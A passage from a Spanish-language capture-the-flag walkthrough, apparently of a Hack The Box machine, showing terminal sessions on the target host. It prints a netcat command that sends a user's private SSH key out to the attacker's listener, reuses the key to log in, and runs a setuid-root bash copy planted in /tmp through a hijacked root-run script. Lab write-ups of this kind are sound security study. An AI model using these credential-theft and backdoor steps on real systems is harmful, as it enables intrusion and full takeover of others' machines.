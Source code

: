 Ahora vamos a loguearnos como el usuario `svc_acc` y se creará el archivo `/tmp/.0xdf`. Para ingresar por ssh vamos a utilizar la `id_rsa` del usuario:

```bash
svc_acc@late:~$ cd .ssh/
svc_acc@late:~/.ssh$ ll
total 20
drwx------ 2 svc_acc svc_acc 4096 Apr  7  2022 ./
drwxr-xr-x 8 svc_acc svc_acc 4096 Jul 24 04:54 ../
-rw-rw-r-- 1 svc_acc svc_acc  394 Apr  7  2022 authorized_keys
-rw------- 1 svc_acc svc_acc 1679 Apr  7  2022 id_rsa
-rw-r--r-- 1 svc_acc svc_acc  394 Apr  7  2022 id_rsa.pub
svc_acc@late:~/.ssh$ 
```

```bash
svc_acc@late:~/.ssh$ nc 10.10.14.2 8443 < id_rsa
^C
svc_acc@late:~/.ssh$ md5sum id_rsa
85c65df127f0f6a53c029f03676dde3a  id_rsa
svc_acc@late:~/.ssh$
```

```bash
❯ nc -nlvp 8443 > id_rsa
listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.156] 57148
❯ md5sum id_rsa
85c65df127f0f6a53c029f03676dde3a  id_rsa
```

```bash
❯ chmod 600 id_rsa
❯ ssh -i id_rsa svc_acc@10.10.11.156
The authenticity of host '10.10.11.156 (10.10.11.156)' can't be established.
ECDSA key fingerprint is SHA256:bFNeiz1CrOE5/p6XvXGfPju6CF1h3+2nsk32t8V1Yfw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.156' (ECDSA) to the list of known hosts.
svc_acc@late:~$ whoami
svc_acc
svc_acc@late:~$
```

Al momento de ingresar ya vemos la `bash` clonada (**Nota**: Debemos hacerlo rápido porque nuestra lineas se borran del archivo `/usr/local/sbin/ssh-alert.sh`).

```bash
svc_acc@late:~$ cd /tmp/
svc_acc@late:/tmp$ ll
total 1136
drwxrwxrwt 12 root    root       4096 Jul 24 05:33 ./
drwxr-xr-x 23 root    root       4096 Apr  7  2022 ../
drwxrwxrwt  2 root    root       4096 Jul 24 04:37 .font-unix/
drwxrwxrwt  2 root    root       4096 Jul 24 04:37 .ICE-unix/
-rwsr-xr-x  1 root    root    1113504 Jul 24 05:33 k4mi*
drwx------  3 root    root       4096 Jul 24 04:37 systemd-private-dbbb43a870434c1d990b004a477d286a-ModemManager.service-qAtYmz/
drwx------  3 root    root       4096 Jul 24 04:37 systemd-private-dbbb43a870434c1d990b004a477d286a-systemd-resolved.service-kp01m2/
drwx------  3 root    root       4096 Jul 24 04:37 systemd-private-dbbb43a870434c1d990b004a477d286a-systemd-timesyncd.service-Mo2A8G/
drwxrwxrwt  2 root    root       4096 Jul 24 04:37 .Test-unix/
drwx------  2 svc_acc svc_acc    4096 Jul 24 04:54 tmux-1000/
drwx------  2 root    root       4096 Jul 24 04:37 vmware-root_736-2991268455/
drwxrwxrwt  2 root    root       4096 Jul 24 04:37 .X11-unix/
drwxrwxrwt  2 root    root       4096 Jul 24 04:37 .XIM-unix/
svc_acc@late:/tmp$ ./k4mi -p
k4mi-4.4# whoami
```